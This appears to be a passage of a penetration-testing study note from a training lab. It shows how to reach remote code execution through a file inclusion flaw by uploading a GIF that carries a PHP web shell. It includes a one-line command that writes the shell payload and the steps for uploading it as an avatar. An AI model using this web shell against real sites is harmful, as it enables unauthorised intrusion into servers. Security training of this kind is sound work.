 If the vulnerable function has code "`Execute`" capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. 

For example, we can upload an image file (e.g. "`image.jpg`"), and store a PHP web shell code within it 'instead of image data', and if we include it through the **LFI** vulnerability, the PHP code will get executed and we will have **RCE**.

As mentioned in the first section, in the table below, there are the functions that allow executing code with file inclusion, any of which would work with this section's attacks:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|**NodeJS**||||
|`res.render()`|✅|✅|❌|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`include`|✅|✅|✅|

### Image upload
Uploading images is widely regarded as safe if the upload function is securely coded. However, the vulnerability is not in the file upload form but the file inclusion functionality.
#### Crafting Malicious Image
Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. 

So, we will use an allowed image extension in our file name (e.g. "`shell.gif`"), and should also include the image magic bytes at the beginning of the file content (e.g. "`GIF8`"), just in case the upload form checks for both the extension and content type as well. We can do so as follows:
```bash
kebamit@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
This file on its own is completely harmless and would not affect normal web apps in the slightest. However, if we combine it with an **LFI** vulnerability, then we may be able to reach RCE.

>[!Note]
We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type. 

Now, we need to upload our malicious image file. To do so, we can go to the "`Profile Settings`" page and click on the avatar image to select our image, and then click on upload and our image should get successfully uploaded:
![[Pasted image 20250207213526.png]]
#### Uploaded File Path
Once we've uploaded our file, all we need to do is include it through the **LFI** vulnerability. To include the uploaded file, we need to know the path to our uploaded file. 
